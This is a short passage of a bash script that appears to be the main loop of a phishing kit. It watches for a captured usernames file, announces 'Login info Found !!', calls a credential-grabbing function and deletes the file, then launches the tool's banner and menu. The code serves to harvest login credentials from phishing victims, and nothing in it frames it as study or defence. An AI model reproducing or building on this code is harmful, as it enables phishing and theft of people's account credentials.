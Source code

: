 sleep 0.75

if [[ -e ".htr/www/usernames.txt" ]]; then

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Login info Found !!\e[0m\n"

grab_creds

rm -rf .htr/www/usernames.txt

fi

sleep 0.75

done 

}

banner

reqs

menu
